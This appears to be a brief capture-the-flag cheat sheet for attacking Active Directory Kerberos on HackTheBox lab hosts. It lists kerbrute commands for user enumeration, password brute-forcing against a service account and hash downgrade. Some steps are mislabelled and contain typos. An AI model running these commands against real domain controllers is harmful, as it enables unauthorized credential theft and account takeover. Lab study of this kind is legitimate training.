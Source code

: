 ldapsearh (find user principal name and service name) --> valid users via kerbrute / or nmap (for keberoasting)


**verify vaild users**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum validuser-list
```

**finding password hash via service user**
`got service user name via ASREPRoasting`

```sh
 kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt
```


**verify password**
```sh
kerbrute bruteuser --dc 10.10.10.100 -d active.htb password.txt SVC_TGS
```

**downgrade hash**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt --downgrade
```
